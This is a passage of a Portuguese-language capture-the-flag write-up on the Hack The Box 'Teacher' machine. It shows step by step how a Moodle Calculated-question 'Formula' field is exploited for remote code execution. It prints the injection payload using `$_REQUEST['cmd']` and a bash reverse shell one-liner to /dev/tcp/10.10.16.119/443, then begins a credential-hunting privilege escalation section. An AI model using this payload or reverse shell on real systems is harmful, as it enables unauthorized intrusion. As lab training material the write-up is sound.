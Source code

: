 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-teacher/Teacher_exp4.png)

Quarto passo é clicar em *Edit* e na próxima tela em *Add* e após isso em *+ a new question* e selecionar *Calculated*

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-teacher/Teacher_exp5.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-teacher/Teacher_exp6.png)

É nesse ponto em que encontramos o campo *Formula* que está vulnerável

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-teacher/Teacher_exp7.png)

Agora retornando ao blog que foi descrito acima como base para realizar a exploração, lendo mais a fundo ele descobrimos como realizar essa exploração desse campo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-teacher/Teacher_exp8.png)

Iremos utilizar o Nº 4 */*{a*/`$_GET[0]`;//{x}}*
Modificamos de $_GET para $_REQUEST pois fica melhor de trabalhar com o Burp
Mudamos também o *0* para *cmd*

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-teacher/Teacher_exp9.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-teacher/Teacher_exp10.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-teacher/Teacher_exp11.png)

Agora apertamos F5 e jogamos para o BurpSuite

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-teacher/Teacher_exp12.png)

Agora jogamos para o *Repeater*

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-teacher/Teacher_exp13.png)

Agora testamos o RCE, fazendo um Ping para nossa máquina Kali e vimos que deu certo. Temos RCE!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-teacher/Teacher_exp14.png)

Pegamos um shell reverso agora

> bash -c 'bash -i >& /dev/tcp/10.10.16.119/443 0>&1'

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-teacher/Teacher_exp15.png)

# Escalando privilégio

#### Uma das primeiras atividades na máquina é procurar por arquivos de configuração que possivelmente pode conter conter credenciais
